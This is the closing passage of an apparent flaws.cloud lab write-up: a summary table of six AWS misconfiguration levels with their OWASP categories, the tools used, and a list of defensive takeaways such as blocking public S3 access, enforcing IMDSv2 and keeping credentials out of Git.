

### Why this matters
The `SecurityAudit` policy is often given to security tools and auditors. Combined with even one additional permission it can allow significant enumeration and in some cases privilege escalation. Always apply least privilege even to audit accounts.

### How to prevent it
- Grant `SecurityAudit` only when necessary and review what it allows
- Monitor IAM enumeration activity in CloudTrail — excessive `Get`, `List`, and `Describe` calls are a red flag
- Use **AWS IAM Access Analyzer** to identify overly permissive policies

---

## Summary

| Level | Vulnerability | OWASP Category |
|-------|--------------|----------------|
| 1 | Public S3 bucket | Security Misconfiguration |
| 2 | S3 accessible to any AWS user | Security Misconfiguration |
| 3 | AWS keys in Git history | Sensitive Data Exposure |
| 4 | Public EC2 snapshot | Security Misconfiguration |
| 5 | SSRF to metadata endpoint | Server-Side Request Forgery |
| 6 | IAM over-enumeration | Broken Access Control |

---

## Tools used
- AWS CLI
- Browser (for bucket enumeration and SSRF)
- Git (for history analysis)
- SSH (for EC2 access)
- nslookup / dig (for DNS reconnaissance)

---

## Key takeaways for defenders

1. **Block public access** on all S3 buckets at the account level
2. **Encrypt all EBS volumes** — encrypted snapshots cannot be made public
3. **Enforce IMDSv2** on all EC2 instances to block SSRF metadata attacks
4. **Never commit credentials** to Git — use git-secrets to enforce this
5. **Apply least privilege** to all IAM users, roles, and policies
6. **Monitor CloudTrail** for enumeration patterns and unusual API activity


---

*All labs were completed against the deliberately vulnerable flaws.cloud infrastructure. No real systems were accessed without permission.*
